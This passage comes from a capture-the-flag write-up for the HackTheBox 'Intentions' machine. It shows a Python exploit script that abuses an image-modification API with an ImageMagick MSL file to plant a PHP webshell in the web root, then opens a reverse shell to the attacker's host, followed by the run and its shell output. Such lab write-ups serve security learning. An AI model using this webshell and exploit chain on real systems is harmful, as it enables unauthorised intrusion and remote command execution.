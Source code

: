```python
    Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
    Content-Type: text/plain

    <?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;" />
    <!-- Relative paths such as info:./../../uploads/swarm.php can be used as well -->
    <write filename="info:/var/www/html/intentions/public/duskpayload.php" />
    </image>
    --ABC--""")

    url=f'http://{target}/api/v2/admin/image/modify?effect=swirl&path=vid:msl:/tmp/php*'

    response = requests.post(url, headers=headers, data=data)

    if response.status_code == 502:
        print("\n[+] Webshell has been successfully uploaded at /duskpayload.php")

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Intentions exploit"
    )
    parser.add_argument('-t', '--target', dest='target', required=True)
    parser.add_argument('--lhost', dest='lhost', required=True)
    parser.add_argument('--lport', type=int, default=4444)
    return parser.parse_args()

def main():
    try:
        args = set_arguments()
        exploit(args.target)
        rev_shell(args.target, args.lhost, args.lport)
        sys.exit(0)
    
    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)

main()
```

Executed the script with the required arguments.

```bash
python3 intentions.py -t 10.129.229.27 --lhost 10.10.14.112

[+] Webshell has been successfully uploaded at /duskpayload.php

[+] Check your Netcat listener! :)
```

And we got a shell as www-data!
